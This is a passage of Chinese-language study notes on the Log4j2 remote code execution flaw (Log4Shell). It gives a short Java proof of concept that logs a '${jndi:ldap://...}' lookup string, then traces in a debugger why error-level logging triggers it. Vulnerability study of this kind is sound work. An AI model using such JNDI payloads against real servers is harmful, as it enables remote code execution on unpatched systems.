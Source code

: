 # Log4j2-rce-学习



## 前言

当时漏洞出的时候在准备期末考试就没管，现在重新拾起来。。



## exp

```java
package com.summer.test;

import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.LogManager;

public class Test {
    private static final Logger log = LogManager.getLogger();
    public static void main(String[] args) {
        log.error("${jndi:ldap://xxxx/6gi89k}");
    }
}

```

![image-20211210114805163](Log4j2-rce-学习.assets/image-20211210114805163.png)

看这洞也就知道了其实就是个jndi注入了。



## 分析

打个断点跟一下吧。首先是到这里：

![image-20211210120428916](Log4j2-rce-学习.assets/image-20211210120428916.png)

需要`isEnabled`为true才能继续logMessage，跟进一下代码就知道，一共有这些个Level：

![image-20211210120520761](Log4j2-rce-学习.assets/image-20211210120520761.png)

而`isEnabled()`函数跟到后面就是这里的判断：

![image-20211210120615531](Log4j2-rce-学习.assets/image-20211210120615531.png)

`intLevel`这个量是200，int值小于等于200的level才能触发：

![image-20211210120755127](Log4j2-rce-学习.assets/image-20211210120755127.png)

所以error和fatal都可以，这就是为什么我们用`error()`来触发的原因。

继续往下跟，最后会发现在`LoggerConfig.java`的456这一行的`log()`成功弹出了计算器，继续跟进。需要注意这时候的logEvent的message就是我们的payload：

